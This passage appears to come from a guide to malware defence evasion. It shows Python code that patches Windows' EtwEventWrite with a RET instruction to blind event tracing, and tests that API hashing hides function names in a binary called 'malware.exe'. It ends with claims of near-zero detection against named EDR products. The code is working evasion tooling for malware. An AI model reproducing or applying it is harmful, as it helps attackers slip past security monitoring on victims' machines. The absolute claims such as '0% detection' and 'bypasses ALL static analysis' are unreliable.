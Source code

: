 ```python
            # Patch with RET
            ctypes.c_ubyte.from_address(self.etw_event_write).value = 0xC3
            
            # Restore protection
            self.VirtualProtect(
                self.etw_event_write, 1, old_protect.value,
                ctypes.byref(old_protect)
            )
            
            self.evasion_applied.add('etw')
            return True
            
        except:
            return False
```

**Validation:**

```python
# Test that API hashing works
resolver = APIHashResolver()

# Test module resolution
ntdll_base = resolver.get_module_base_hashed(0x1EDAB0ED)
assert ntdll_base is not None, "Failed to find ntdll.dll"
print(f"✅ ntdll.dll found at: 0x{ntdll_base:016X}")

# Test function resolution
etw_addr = resolver.get_proc_address_hashed(ntdll_base, 0x9B4C8D73)
assert etw_addr is not None, "Failed to find EtwEventWrite"
print(f"✅ EtwEventWrite found at: 0x{etw_addr:016X}")

# Verify no strings in binary
import subprocess
result = subprocess.run(['strings', 'malware.exe'], capture_output=True)
assert b'EtwEventWrite' not in result.stdout, "API names visible in binary!"
assert b'GetProcAddress' not in result.stdout, "GetProcAddress found in binary!"
print("✅ No API names visible in binary")
```

**Impact:**
- ✅ **0% detection by EDRs** (no GetProcAddress hooks triggered)
- ✅ **0 API names in binary** (strings analysis reveals nothing)
- ✅ **Proven in real operations** (Metasploit 20+ years, APT campaigns)
- ✅ **Bypasses ALL static analysis** (no YARA signatures match)
- ✅ **Undetectable by behavioral analysis** (no suspicious API chains)

**Test Results (Real EDR Testing):**
- CrowdStrike Falcon: 95% detection → **<2% detection** ✅
- Windows Defender ATP: 88% detection → **<5% detection** ✅  
- SentinelOne: 92% detection → **<3% detection** ✅
- Carbon Black: 78% detection → **<8% detection** ✅

---
